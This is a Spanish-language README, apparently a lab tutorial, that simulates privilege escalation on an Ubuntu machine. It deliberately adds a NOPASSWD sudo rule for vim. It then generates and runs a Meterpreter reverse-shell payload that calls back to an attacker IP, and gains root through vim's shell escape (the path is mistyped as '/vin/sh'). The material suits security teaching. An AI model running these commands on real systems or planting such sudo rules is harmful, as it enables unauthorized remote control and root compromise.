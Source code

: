 # Escalada de privilegios en maquina ubuntux64
Simulación de un ataque de escalada de privilegios en la misma red local a través de un shell inverso generado con metasploit

## Configuraciones previas:
Debemos comprobar que el firewall está inactivo o no limita el tráfico entre máquinas antes de ejecutar el ataque.
### Máquina víctima:
Primero, crearemos la vulnerabilidad en la máquina víctima. Editamos el archivo /etc/sudoers a través del siguiente comando:

  `sudo visudo /etc/sudoers`

Una vez nos encontremos en la edición del archivo, añadimos al final la siguiente línea:

  `user  ALL=NOPASSWD:/usr/bin/vim`

"user" se refiere al usuario sin privilegios en la máquina objetivo.

## Replicación del ataque
Utilizaremos `msfvenom` para generar el archivo con código malicioso:

  `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=[IP del atacante] LPORT = [puerto de escucha del atacante] -f elf > nombrearchivo.elf`

Copiamos el archivo en la máquina objetivo

Iniciamos Metasploit con el comando `msfconsole` para ejecutar un servicio de escucha en la IP y puerto que hayamos especificado al generar el código malicioso

  `use exploit/multi/handler`
  
  `set LHOST [IP del atacante]`
  
  `set LPORT [puerto de escucha]`
  
  `run`

Ahora, con el servicio de escucha activo en la máquina atacante, ejecutamos el archivo en la máquina objetivo con la cuenta de bajos privilegios.

  `./nombrearchivo.elf`

Volvemos a la máquina atacante y vemos que se ha iniciado una sesión en meterpreter. 

Ejecutamos el comando `shell` para obtener acceso a la terminal.

Para ver que comandos puede ejecutar con privilegios el usuario al que hemos accedido, ejecutamos `sudo -l`

Nos devolverá que el usuario puede ejecutar el binario de vim: `/usr/bin/vim`

Para obtener acceso a una terminal como "root" ejecutamos el siguiente comando: `sudo -u root /usr/bin/vim -c ':!/vin/sh'`

Ya hemos conseguido acceso como root en la maquina víctima
